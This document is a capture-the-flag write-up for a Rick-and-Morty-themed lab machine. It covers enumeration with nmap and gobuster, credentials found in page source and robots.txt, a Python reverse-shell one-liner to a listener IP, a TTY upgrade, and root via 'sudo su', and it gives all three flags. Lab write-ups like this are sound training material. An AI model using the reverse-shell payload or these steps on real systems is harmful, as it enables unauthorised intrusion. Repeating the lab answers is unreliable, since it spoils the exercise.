 - first view source code to find `username: R1ckRul3s` , then go to `/robots.txt` and e get a string `Wubbalubbadubdub` which may be the password for something.

- we run enumeration like nmap scan and gobuster 
> `nmap -sC -sV 10.10.216.184 -Pn --vv`
> `gobuster dir -u http://10.10.216.184/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js,py -t 100`
>this gives us info that port `22` and `80` are open and there is a `login.php` endpoint 

- we go to login.php and type in the credentials and that takes us to a command interface when we do `ls` we see `Sup3rS3cretPickl3Ingred.txt` , if we try to cat it out it doesnt allow it so we do `less Sup3rS3cretPickl3Ingred.txt` and it gives flag 1 -> `mr. meeseek hair`

- theres a clue.txt that tells us to navigate file system so we try for a reverse shell using payload 
>`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.94.67",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

- now this gives us shell but we want fully interactive `TTY` to navigate file system so we run the command 
> `python3 -c 'import pty;pty.spawn("/bin/bash")'`

- now we get the proper terminal and we go to `/` and do `cd /home/rick` and do `cat 'second ingredients'` and it gives flag 2 -> `1 jerry tear`

- to get `root access` we have to think of privilege escalation first and foremost try `sudo su` and it surprisingly works so we go to `cd /root` and `cat 3rd.txt` and we get flag 3 -> `fleeb juice`
---
